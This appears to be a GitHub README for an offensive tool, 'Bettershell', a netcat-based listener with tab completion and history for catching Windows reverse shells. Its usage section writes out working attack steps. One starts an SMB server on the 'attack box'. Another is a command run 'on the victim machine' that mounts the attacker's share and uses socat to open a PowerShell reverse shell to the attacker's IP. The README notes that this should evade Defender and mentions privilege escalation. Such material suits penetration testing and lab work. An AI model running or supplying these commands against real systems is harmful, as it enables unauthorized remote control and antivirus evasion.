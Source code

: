 # Bettershell
Bettershell is a basic netcat client, supercharged with rlwrap, socat, a large Powershell command wordlist, and bash scripting.

### Features:
* Shells won't die on CTRL+C
* Preset tab autocomplete based on a Windows command list
* Filesystem-learning tab autocomplete, thanks to rlwrap's smart output parser
* Working arrowkey movement
* Searchable command history with CTRL+R
* An accurate path prompt
* No double echo of commands
* It's blue! Is it really powershell if it isn't blue?

Although bettershell can be used to catch any reverse shell from a Windows box, the included 'socat.exe' binary is strongly recommended to properly pipe stderr messages to your listener; visible error messages are invaluable when privilege-escalating.
## Usage

Open port 445, then start up an impacket SMB server on your attack box in the same directory as socat.exe:
```
sudo smbserver.py SMB . -comment SMB -ts -debug -smb2support -username user -password pass
```
Start a listener in another window: ```./bettershell -nlvp yourPORT```

Lastly, execute the following on the victim machine:
```
cmd.exe /c net use x: \\yourIP\SMB /user:user pass & x:\socat.exe tcp-connect:yourIP:yourPORT exec:powershell.exe,pty,stderr
```
The above example shouldn't trigger Defender. Exclude authentication when attacking older PCs that don't support it.
